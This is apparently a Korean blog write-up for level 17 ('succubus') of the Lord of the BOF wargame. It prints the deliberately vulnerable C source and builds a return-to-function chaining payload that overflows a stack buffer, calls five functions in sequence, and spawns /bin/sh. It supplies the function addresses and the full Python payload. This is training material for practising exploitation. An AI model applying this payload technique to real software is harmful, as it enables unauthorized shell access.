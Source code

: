 ```yaml
---
title:  "[LOB] level 17: zombie_assassin >> succubus "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-28 08:06:33

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 17

**zombie_assssin / no place to hide**

succubus.c 코드 읽기  
```c
/*

        The Lord of the BOF : The Fellowship of the BOF
        - succubus
        - calling functions continuously
*/

#include <stdio.h>
#include <stdlib.h>
#include <dumpcode.h>

// the inspector
int check = 0;

void MO(char *cmd)
{
        if(check != 4)
                exit(0);

        printf("welcome to the MO!\n");

        // olleh!
        system(cmd);
}

void YUT(void)
{
        if(check != 3)
                exit(0);

        printf("welcome to the YUT!\n");
        check = 4;
}

void GUL(void)
{
        if(check != 2)
                exit(0);

        printf("welcome to the GUL!\n");
        check = 3;
}

void GYE(void)
{
        if(check != 1)
                exit(0);

        printf("welcome to the GYE!\n");
        check = 2;
}

void DO(void)
{
        printf("welcome to the DO!\n");
        check = 1;
}

main(int argc, char *argv[])

{
        char buffer[40];
        char *addr;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // you cannot use library
        if(strchr(argv[1], '\x40')){
                printf("You cannot use library\n");
                exit(0);
        }

        // check address
        addr = (char *)&DO;
        if(memcmp(argv[1]+44, &addr, 4) != 0){
                printf("You must fall in love with DO\n");
                exit(0);
        }

        // overflow!
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // stack destroyer
        // 100 : extra space for copied argv[1]
        memset(buffer, 0, 44);
        memset(buffer+48+100, 0, 0xbfffffff - (int)(buffer+48+100));

        // LD_* eraser
        // 40 : extra space for memset function
        memset(buffer-3000, 0, 3000-40);
}
```
길다 길어  

1. 매개변수 최소 1개 (argv error)  
2. library영역 사용불가 (you cannot use library)
3. ret부분은 DO의 주소 (you must fall in love with DO)
4. ret영역과 그 뒤를 제외한 stack 사용 불가능 (stack destroyer)
5. LD_* 환경변수 사용 불가능 (LD_* eraser)

도 개 걸 윷 모 함수에 도달하면서 check를 만족 시키고 모 함수에서 쉘을 띄우면되는것 같다  
이 문제는 rtl chaining 을 사용한다

페이로드 구상도:  
>dummy[44]+&DO()[4]+&GYE()[4]+&GUL()[4]+&YUT()[4]+&MO()[4]+dummy[4]+&/bin/sh+"/bin/sh"

함수의 주소들  
![image](https://user-images.githubusercontent.com/69203345/147542147-89344c5d-7603-4ce8-8fd7-06af2c83727f.png)  
gdb를 사용해서도 알수 있다  
![image](https://user-images.githubusercontent.com/69203345/147542345-efdf533e-46e5-4dcd-8924-32d129ddc249.png)

DO : 0x080487ec
GYE : 0x080487bc
GUL : 0x0804878c
YUT : 0x0804875c
MO : 0x08048724

/bin/sh주소  
>\`python -c 'print "D"\*44+"\xec\x87\x04\x08"+"\xbc\x87\x04\x08"+"\x8c\x87\x04\x08"+"\x5c\x87\x04\x08"+"\x24\x87\x04\x08"+"D"*4+"AAAA"+"/bin/sh"'`

![image](https://user-images.githubusercontent.com/69203345/147543133-21a19f64-4a69-4e16-bcb1-d7dee200c50a.png)  
/bin/sh 주소: 0xbffffaa8

페이로드:  
>\`python -c 'print "A"\*44+"\xec\x87\x04\x08"+"\xbc\x87\x04\x08"+"\x8c\x87\x04\x08"+"\x5c\x87\x04\x08"+"\x24\x87\x04\x08"+"D"*4+"\xa8\xfa\xff\xbf"+"/bin/sh"'`

![image](https://user-images.githubusercontent.com/69203345/147543568-929a7fe2-0df9-4705-9629-0a87a0ef9e64.png)

---
rtl chaining참고글  
https://lactea.kr/entry/bof-RTL-Chaining-%EA%B3%B5%EA%B2%A9-%EA%B8%B0%EB%B2%95  
https://d4m0n.tistory.com/80  

